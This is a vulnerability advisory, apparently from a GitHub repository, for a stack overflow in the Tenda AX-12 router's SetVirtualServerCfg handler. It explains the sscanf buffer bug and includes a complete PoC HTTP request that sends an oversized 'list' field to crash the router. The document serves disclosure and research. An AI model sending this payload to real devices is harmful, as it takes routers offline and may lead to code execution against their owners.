



# Tenda Vulnerability

Vendor:Tenda

Product:AX-12

Version:v22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

Vulnerability Type: Stack Overflow

Author:Shuhao Shen

Mail:shenshuhao@hust.edu.cn

Institution:Huazhong University of Science and Technology(HUST)


## Vulnerability cause

In the sub_42DB88 function, the list parameter is passed to the sscanf function and parsed into the v12 buffer. The v12 buffer has a size of 16 bytes (4 * _DWORD), but there is no restriction on the length of the list parameter. When the first field's length exceeds 15 bytes (requiring 1 byte for the null terminator), sscanf writes excessive data to v12, causing a stack overflow. This may lead to a Denial of Service (DoS) attack or potential code execution.

<div  align="center"></div>


## PoC

In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
POST /goform/SetVirtualServerCfg HTTP/1.1

Host: 172.21.0.1

Content-Length: 88

X-Requested-With: XMLHttpRequest

Accept-Language: en-US,en;q=0.9

Accept: */*

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36

Origin: http://172.21.0.1

Referer: http://172.21.0.1/index.html

Accept-Encoding: gzip, deflate, br

Connection: close


list=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,field2,field3,field4
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>